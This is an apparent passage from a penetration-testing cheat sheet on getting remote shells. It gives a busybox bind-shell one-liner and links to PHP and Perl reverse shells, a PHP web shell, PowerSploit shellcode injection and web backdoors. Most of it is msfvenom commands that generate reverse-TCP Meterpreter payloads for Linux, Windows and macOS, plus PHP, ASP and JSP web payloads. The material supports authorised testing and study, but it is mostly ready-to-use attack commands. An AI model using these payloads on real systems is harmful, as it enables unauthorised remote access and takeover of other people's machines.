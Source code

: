      -   from busybox  
         /bin/busybox telnetd -|/bin/sh -p9999

-   Pen test monkey PHP reverse shell  
    [*http://pentestmonkey.net/tools/web-shells/php-reverse-shel*](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [*http://pentestmonkey.net/tools/web-shells/php-findsock-shell*](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell  
    [*http://pentestmonkey.net/tools/web-shells/perl-reverse-shell*](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [*https://github.com/b374k/b374k*](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb (
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
      
      *Linux*
      
      msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
      
      *Windows*
      
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
      
      *Mac*

      msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
      
      **Web Payloads**
      
      *PHP*
      
      msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
      
      cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
      
      *ASP*

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
      
      *JSP*

      msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
      